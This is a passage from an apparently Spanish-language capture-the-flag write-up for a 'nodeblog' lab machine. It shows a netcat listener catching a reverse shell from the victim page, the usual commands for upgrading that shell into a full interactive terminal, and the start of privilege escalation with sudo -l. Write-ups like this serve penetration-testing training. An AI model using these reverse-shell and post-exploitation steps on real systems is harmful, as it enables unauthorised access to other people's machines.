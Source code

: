 
```bash
nc -nlvp 443
```

y pulsamos F5 en la pagina de la IP VICTIMA  para actualizarla y que se ejecute el ataque

![[20250724095138.png]](nodeblog-images/20250724095138.png)

recibiremos una Shell

## Tratamiento de Shell

pondremos el comando
```bash
script /dev/null -c bash
```

pulsamos Ctrl + Z 

```bash
stty raw -echo; fg
```

ponemos 
```bash
export TERM=xterm
```

y una vez dentro de la terminal ponemos

```bash
export SHELL=/bin/bash
```

# Escalada de privilegios

lo primero que miramos siempre es sudo -l para ver si tenemos opción de ejecutar algo como root

![[20250724095630.png]](nodeblog-images/20250724095630.png)
